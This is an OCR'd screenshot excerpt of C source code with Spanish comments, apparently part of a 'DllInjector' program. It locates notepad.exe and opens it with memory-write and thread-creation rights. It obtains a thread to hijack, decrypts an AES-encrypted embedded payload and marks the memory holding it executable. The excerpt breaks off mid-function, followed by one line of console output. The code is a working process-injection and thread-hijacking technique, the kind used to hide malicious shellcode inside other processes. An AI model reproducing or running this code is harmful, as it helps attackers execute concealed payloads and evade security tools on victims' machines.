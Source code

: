 ```c
		}
	}
	CloseHandle(Snap);
	
	return hThread;
}

int FindProcess(const char *procname) {
        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);//se crear un snapshot de los procesos en ejecución del sistema operativo
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
        pe32.dwSize = sizeof(PROCESSENTRY32); // se obtiene el tamaño total del objeo definido     
        if (!Process32First(hProcSnap, &pe32)) { // validación del snapshot creado
                CloseHandle(hProcSnap);
                return 0;
        }
        while (Process32Next(hProcSnap, &pe32)) { // iteración del snapshot
				//printf("[FindProcess: ] %s \n", pe32.szExeFile);
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) { // comprobación del nombre del proceso
                        pid = pe32.th32ProcessID; // obtención del pid del proceso
						printf("[FindProcess]: Process Found %s :", pe32.szExeFile);
						printf(" PID %d \n", pid);
                        break;
                }
        }       
        CloseHandle(hProcSnap); //se cierra el snapshot       
        return pid; // retorno de pid
}


int main(void) {
	printf("[main] DllInjector Process Init \n");
	DWORD lpid = GetCurrentProcessId();
	printf("[main] Current Process PID %d \n", lpid);
	getchar();
	int pid = 0;
    HANDLE hProc = NULL;
	pid = FindProcess("notepad.exe");
	if (pid) {
		printf("[Main] Target notepad.exe PID = %d\n", pid);
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);
		HANDLE hThread = FindThread(pid);
		if (hThread == NULL) {
			printf("Error, hijack unsuccessful.\n");
			return -1;
		}
		getchar();
		void * exec_mem;
		BOOL rv;
		HANDLE th;
		DWORD oldprotect = 0;
		unsigned int payload_len = sizeof(payload);
		exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
		RtlMoveMemory(exec_mem, payload, payload_len);
		rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
		if ( rv != 0 ) {
```

[FindProcess]: Process Found notepad.exe : PID 3584
